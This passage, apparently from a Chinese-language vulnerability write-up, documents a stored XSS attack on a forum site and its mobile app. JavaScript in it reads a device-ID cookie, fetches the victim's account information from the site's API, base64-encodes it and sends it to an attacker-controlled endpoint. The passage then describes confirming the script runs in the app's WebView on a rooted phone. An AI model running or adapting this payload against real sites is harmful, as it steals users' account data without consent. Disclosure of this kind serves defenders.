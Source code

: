         // base64 加解密
        const encode = str => {
            var b64 = btoa(unescape(encodeURIComponent(str)))
            return b64
        }
        const decode = str => {
            var str = decodeURIComponent(escape(atob(str)));
            return str
        }

        // 发送请求获取用户信息后，向攻击者服务器外送
        const startSend = async function() {
            const deviceid = getCookieValue('jssdk_deviceid')
            res = await myFetch('https://sowellwell.com/w/v1/account/info', deviceid)
            var encoded = encode(JSON.stringify(res))
            // send data
            justSend(api_burp+'?data='+encoded)
        }

3. 手机客户端利用

    观察到深井配有手机客户端，于是检查xss是否能够在其中触发。通过Root后的手机上安装EdXposed，并且安装TrustMeAlready模块导入burp证书，安装WebViewPP模块来启动Webview debug模式后，最后用chrome devtools调试手机端帖子的页面，发现深井应用浏览帖子基于Webview，并且XSS脚本能够执行。

    图示 xss嵌入webview
    ![webview-xss](./images/webview1.png)
    图示 xss脚本已下载